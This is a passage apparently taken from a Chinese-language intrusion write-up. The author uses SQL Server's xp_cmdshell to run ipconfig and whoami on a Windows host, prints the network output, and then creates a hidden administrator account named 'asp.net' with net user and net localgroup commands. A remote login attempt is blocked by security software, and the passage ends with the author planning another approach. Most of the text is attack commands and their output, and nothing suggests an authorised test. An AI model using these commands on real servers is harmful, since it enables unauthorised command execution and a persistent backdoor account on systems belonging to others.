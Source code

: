```
                 状态:        媒体连接已中断
```

`exec master..xp_cmdshell "ipconfig"`

```
Windows IP 配置


以太网适配器 本地连接 2:

   媒体状态  . . . . . . . . . . . . : 媒体已断开
   连接特定的 DNS 后缀 . . . . . . . :

以太网适配器 本地连接:

   连接特定的 DNS 后缀 . . . . . . . :
   本地链接 IPv6 地址. . . . . . . . : fe80::e436:8d88:315b:25aa%11
   IPv4 地址 . . . . . . . . . . . . : 192.168.122.16
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . : 192.168.122.254

隧道适配器 isatap.{9520CC43-69D2-42A5-99EB-2A1A49B84B34}:

   媒体状态  . . . . . . . . . . . . : 媒体已断开
   连接特定的 DNS 后缀 . . . . . . . :

隧道适配器 Teredo Tunneling Pseudo-Interface:

   媒体状态  . . . . . . . . . . . . : 媒体已断开
   连接特定的 DNS 后缀 . . . . . . . : 
```

提权路

`exec master..xp_cmdshell "whoami"`

![](https://mmbiz.qpic.cn/mmbiz_png/0O7ep2c6dwM9R2o7vQEEWjmym0wRW16mr567hO3qkw7ia9r23YRZNP7GESUFia9L8gaaPYJibzhlnxiar10rZiaR9Lg/640?wx_fmt=png)

既然是 system，直接`net user asp.net 123456/add && net localgroup administrators asp.net /add`一波带走

远程连上看看

![](https://mmbiz.qpic.cn/mmbiz_png/0O7ep2c6dwM9R2o7vQEEWjmym0wRW16mk0YEt4ekWFYqUpqfPpaNa0bmic43jkN2xlJpYrAsHZpQPLq3o08yXag/640?wx_fmt=png)

WTF??? 还有个安全防护软件

那么接下来肯定登不上。。

![](https://mmbiz.qpic.cn/mmbiz_png/0O7ep2c6dwM9R2o7vQEEWjmym0wRW16msG76Vw39Q5oCNAA4HEcc80icsInThAyeVR45N6mGKT7047iaNF9K7gibw/640?wx_fmt=png)

换个思路

接下来开始翻资料，梳理下现在的情况
